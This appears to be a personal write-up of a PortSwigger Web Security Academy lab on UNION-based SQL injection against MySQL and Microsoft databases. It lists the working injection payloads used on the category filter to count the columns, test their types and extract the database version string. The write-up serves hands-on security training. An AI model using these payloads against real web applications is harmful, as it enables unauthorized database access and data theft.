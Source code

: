 ```yaml
---
title: 'Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: his lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* Goal: To solve the lab, display the database version string. 

## Exp
1. Consider # of column
Payload: `?category=Accessories' union select NULL,NULL -- #`
2. Consider column type
Payload: `?category=Accessories' union select 'a','a' -- #`
Both of them contained text.
3. Attack
Payload: `?category=Accessories' union select 'abc',@@version -- #`
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/vOx5kCK.png)
    :::

## Reference